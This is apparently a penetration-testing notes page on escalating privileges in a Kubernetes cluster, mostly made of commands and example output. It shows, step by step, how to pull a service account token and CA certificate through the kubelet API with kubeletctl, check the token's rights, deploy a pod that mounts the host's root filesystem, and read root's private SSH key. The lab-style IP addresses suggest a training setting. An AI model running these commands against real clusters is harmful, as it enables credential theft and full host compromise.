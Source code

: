 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Kubernetes

Kubernetes, also known as K8s, is a container orchestration system, which functions by running all applications in containers isolated from the host system through multiple layers of protection. This approach ensures that applications are not affected by changes in the host system, such as updates or security patches. The K8s architecture comprises a **master node** and **worker nodes**, each with specific roles.

Kubernetes architecture is primarily divided into two types of components:

* `The Control Plane` (master node), which is responsible for controlling the Kubernetes cluster
* `The Worker Nodes` (minions), where the containerised applications are run

### Privilege Escalation

To gain higher privileges and access the host system, we can utilise a tool called [kubeletctl.md](../../../../toolbox/tooling/exploitation-tools/service-exploitation-tools/kubeletctl.md "mention") to obtain the Kubernetes service account's `token` and `certificate` (`ca.crt`) from the server.

To do this, we must provide the server's IP address, namespace, and target pod. In case we get this token and certificate, we can elevate our privileges even more, move horizontally throughout the cluster, or gain access to additional pods and resources.

### Kubelet API - Extracting Tokens

{% code title="Command" overflow="wrap" %}
```bash
kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
```
{% endcode %}

{% code title="Example Output" %}
```bash
eyJhbGciOiJSUzI1NiIsImtpZC...SNIP...UfT3OKQH6Sdw
```
{% endcode %}

### Kubelet API - Extracting Certificates

{% code title="Command" overflow="wrap" %}
```bash
kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
```
{% endcode %}

{% code title="Example Output" %}
```bash
-----BEGIN CERTIFICATE-----
MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
<SNIP>
MhxgN4lKI0zpxFBTpIwJ3iZemSfh3pY2UqX03ju4TreksGMkX/hZ2NyIMrKDpolD
602eXnhZAL3+dA==
-----END CERTIFICATE-----
```
{% endcode %}

Now that we have both the `token` and `certificate`, we can check the access rights in the Kubernetes cluster. This is commonly used for auditing and verification to guarantee that users have the correct level of access and are not given more privileges than they need. However, we can use it for our purposes and we can inquire of K8s whether we have permission to perform different actions on various resources.

### List Privileges

{% code title="Command" %}
```bash
export token=`cat k8.token`
```
{% endcode %}

{% code title="Command" overflow="wrap" %}
```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
```
{% endcode %}

{% code title="Example Output" %}
```bash
Resources					Non-Resource URLs    Resource Names	Verbs 
selfsubjectaccessreviews.authorization.k8s.io	[]                   []			[create]
selfsubjectrulesreviews.authorization.k8s.io	[]                   []			[create]
pods						[]                   []			[get create list]
...SNIP...
```
{% endcode %}

Here we can see a few very important information. Besides the selfsubject-resources we can `get`, `create`, and `list` pods which are the resources representing the running container in the cluster. From here on, we can create a `YAML` file that we can use to create a new container and mount the entire root filesystem from the host system into this container's `/root` directory. From there on, we could access the host systems files and directories. The `YAML` file could look like following:

### Pod YAML

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

Once created, we can now create the new pod and check if it is running as expected.

### **Creating a new Pod**

{% code title="Command" overflow="wrap" %}
```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml
```
{% endcode %}

{% code title="Example Output" %}
```bash
pod/privesc created
```
{% endcode %}

{% code title="Command" overflow="wrap" %}
```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
```
{% endcode %}

{% code title="Example Output" %}
```bash
NAME	READY	STATUS	RESTARTS	AGE
nginx	1/1		Running	0	23m
privesc	1/1		Running	0	12s
```
{% endcode %}

If the pod is running we can execute the command and we could spawn a reverse shell or retrieve sensitive data like private SSH key from the root user.

### **Extracting Root's SSH Key**

{% code title="Command" %}
```bash
kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```
{% endcode %}
